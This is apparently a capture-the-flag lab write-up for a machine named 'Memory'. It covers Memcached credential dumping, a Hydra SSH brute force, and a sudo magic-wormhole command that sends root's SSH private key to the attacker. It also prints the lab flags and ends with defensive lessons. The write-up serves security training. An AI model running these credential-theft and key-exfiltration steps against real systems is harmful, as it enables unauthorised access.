# Memory - Penetration Testing Report

**Machine:** Memory

**Difficulty:** Easy

**IP Address:** 10.13.1.102

**Operating System:** Linux (Debian)

**Kernel Version:** 6.1.0-41-amd64

**Date:** 07.03.2026

---

## Executive Summary

Successfully compromised the Memory machine through an exposed Memcached service containing plaintext credentials, followed by privilege escalation via sudo misconfiguration allowing file transfer of root's SSH private key.

**Attack Path:**
Memcached enumeration → Plaintext password discovery → SSH brute force → Sudo wormhole exploitation → Root SSH key exfiltration → Root access

---

## Enumeration

### Network Discovery

Target IP identified: **10.13.1.102**

---

### Port Scanning

```bash
nmap -sS -sV -sC -T4 -p- --min-rate 5000 10.13.1.102
```



**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 22/tcp | SSH | OpenSSH 9.2p1 (Debian) |
| 80/tcp | HTTP | Apache httpd 2.4.65 |
| 11211/tcp | **Memcached** | 1.6.18 |

**Key Finding:** Memcached exposed on port 11211 without authentication.

Noticed [ 256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519) ] ssh-hostkey possible **ssh key**

---

### Web Enumeration

Accessing port 80 showed default Apache installation page:

Directory enumeration revealed no significant findings. Focus shifted to Memcached.



---

### Memcached Enumeration

**What is Memcached?**
High-performance memory caching system used to speed up web applications by storing data in RAM.

**Connecting via Netcat:**

```bash
nc 10.13.1.102 11211
```

**Checking for cached items:**

```bash
stats items
```

**Result:** Slab 1 contains 1 item.



**Dumping cache keys:**

```bash
stats cachedump 1 100
```

**Critical Discovery:** Key named "password" found!



**Retrieving the password:**

```bash
get password
```



**Credential Found:** `NewPassword2025`

---

## Exploitation

### Username Discovery

With password in hand, needed to find matching username.

**Brute Force Attack:**

```bash
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p "NewPassword2025" ssh://10.13.1.102
```



**Success:** `alan:NewPassword2025`

---

## Initial Access

### SSH Login

```bash
ssh alan@10.13.1.102
# Password: NewPassword2025
```



**Access granted as user `alan`.**

### User Flag

```bash
cat ~/user.txt
# 9d1e64f050e5b8ebf3b78fa84199b3cd
```



---

### System Enumeration

Checked system users:


Only two users with login capability: `alan` (current) and `root` (target).

---

## Privilege Escalation

### Sudo Permissions Check

```bash
sudo -l
```



**Finding:** Can run `/usr/bin/wormhole` as root without password!

**What is wormhole?**
Magic-wormhole is a Python tool for securely transferring files between computers using end-to-end encryption and pairing codes.

**Exploitation Plan:** Use wormhole to send root's SSH private key to attacking machine. (as we noticed in first nmap scan)

---

### Setting Up Wormhole (Kali Machine)

**Installation issue:**

```bash
pip3 install magic-wormhole
```



**Error:** System prevents global pip installations.

**Solution: Virtual Environment**

```bash
python3 -m venv venv
source venv/bin/activate
```

**Install wormhole:**

```bash
pip3 install magic-wormhole
```



---

### SSH Key Exfiltration

**On target machine (as alan):**

```bash
sudo /usr/bin/wormhole send /root/.ssh/id_rsa
```



**Transfer code generated:** `1-intention-seabird`

**On Kali machine:**

```bash
wormhole receive 1-intention-seabird
```



**Transfer complete!** Root's SSH key obtained.

---

### Root Access

**Set correct permissions:**

```bash
chmod 600 id_rsa
```

**SSH as root:**

```bash
ssh -i id_rsa root@10.13.1.102
```



**Root access achieved!**

---

## Proof of Compromise

### Root Flag

```bash
cat /root/root.txt
# db516ff5b787b724346d84f61fc5c702
```



---

## Vulnerability Summary

| Vulnerability | Severity | Impact |
| --- | --- | --- |
| Memcached exposed without authentication | Critical | Credential disclosure |
| Plaintext credentials in cache | Critical | Authentication bypass |
| No SSH brute force protection | Medium | Username enumeration |
| Sudo wormhole misconfiguration | Critical | Arbitrary file read as root |

---

## Attack Chain

```
[1] Port Scan → Memcached on 11211
        ↓
[2] Memcached Enumeration → "password" key found
        ↓
[3] Credential Extraction → NewPassword2025
        ↓
[4] SSH Brute Force → Username: alan
        ↓
[5] Initial Access → alan:NewPassword2025
        ↓
[6] Sudo Check → Can run wormhole as root
        ↓
[7] Setup Wormhole → Virtual env + installation
        ↓
[8] SSH Key Exfiltration → Root's id_rsa transferred
        ↓
[9] Root Access → SSH with stolen key
        ↓
[10] Complete Compromise → Root flag obtained
```

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Description |
| --- | --- | --- | --- |
| **Reconnaissance** | Active Scanning | T1595 | Port scanning with nmap |
| **Credential Access** | Unsecured Credentials | T1552.001 | Plaintext password in Memcached |
| **Credential Access** | Brute Force | T1110.001 | SSH username enumeration with Hydra |
| **Initial Access** | Valid Accounts | T1078.003 | SSH login with discovered credentials |
| **Execution** | Command and Scripting Interpreter | T1059.004 | Bash commands on compromised system |
| **Discovery** | Network Service Discovery | T1046 | Service enumeration (Memcached) |
| **Discovery** | Permission Groups Discovery | T1069.001 | sudo -l enumeration |
| **Privilege Escalation** | Sudo and Sudo Caching | T1548.003 | Abusing sudo wormhole permissions |
| **Collection** | Data from Local System | T1005 | Accessing root SSH private key |
| **Exfiltration** | Exfiltration Over Alternative Protocol | T1048 | File transfer via magic-wormhole |

---

## Tools Used

| Tool | Purpose |
| --- | --- |
| Nmap | Port scanning and service detection |
| Netcat | Memcached interaction |
| Hydra | SSH brute force |
| Magic Wormhole | Secure file transfer (exploitation) |
| Python venv | Isolated environment for tools |

---

## Key Lessons

1. **Memcached should never be exposed publicly** - bind to localhost only
2. **Never store credentials in cache** - use proper secrets management
3. **Sudo permissions need careful review** - file transfer tools can exfiltrate sensitive data
4. **SSH keys provide persistent access** - once obtained, works until revoked
5. **Simple misconfigurations chain to full compromise** - defense in depth is critical

---

## Conclusion

The Memory machine demonstrated how exposed cache services and sudo misconfigurations can lead to complete system compromise. The attack required minimal complexity - simply enumerating Memcached, discovering plaintext credentials, and abusing sudo permissions to exfiltrate root's SSH key.

**Happy Hacking!**